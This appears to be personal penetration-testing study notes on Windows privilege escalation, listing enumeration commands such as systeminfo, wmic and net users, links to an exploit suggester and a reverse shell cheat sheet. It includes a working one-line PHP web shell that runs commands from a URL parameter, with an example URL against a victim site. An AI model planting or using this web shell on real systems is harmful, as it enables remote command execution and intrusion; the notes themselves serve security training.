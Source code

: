 # ariel-shin Windows - Privilege Escalation

## Summary 
* [Tools](#tools)

## MUST RUN: ipconfig/ifconfig && whoami && cat local.txt

## Web Shell for Windows 
- [PHP Web Shell]
    Test if PHP works
    ```phpinfo
    <?php phpinfo(); ?>
    ```
    Command Execution
    ```php webshell
    <?php echo(system($_GET["cmd"])); ?>
    ```
    Go to http://victimsite.com/test.php?cmd=dir for command execution 

## Process
- [systeminfo]
	* Gives us system info 

	* Check Hot Fixes
		* No hot fixes - means no hotfixes installed OR we don't have permissions to view hot fixes

	* Check OS Name
		* google: systeminfo "OS" + "NIC(s) installed"
			* example: "Microosft Windows Server 2008 R2 DataCenter" + "NIC(s) installed"
		* check if someone else has posted systeminfo output so we can compare our OS version 

	* Check OS Versions 
		* Indicate the Service Pack -- N/A
		
		```systeminfo
		systeminfo | findstr /B /C:”OS Name” /C:”OS Version”
		```
		* Google Output
- [wmic os get osarchitecture || echo %PROCESSOR_ARCHITECTURE%]
	* Get architecture
	* x86 = 32 bit machine
	* x64 = 64 bit machine
- [Environment Variables]
	* Command Prompt
	```env
	set
	```
	* PowerShell
	```
	Get-ChildItem Env: | ft Key,Value
	```
- [net users]
	* See the users 
- [net localgroup Administrator(s)]
	* See which users are in the Administrator Group




sc -- tells you what program is running
systeminternals
accesschk.exe


## Automated Tools
* [Windows Exploit Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester)

## Cheat Sheets
* [Reverse Shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
)

## Links
* [Spreadsheet with Resources](https://docs.google.com/spreadsheets/d/12bT8APhWsL-P8mBtWCYu4MLftwG1cPmIL25AEBtXDno/edit#gid=2075148101)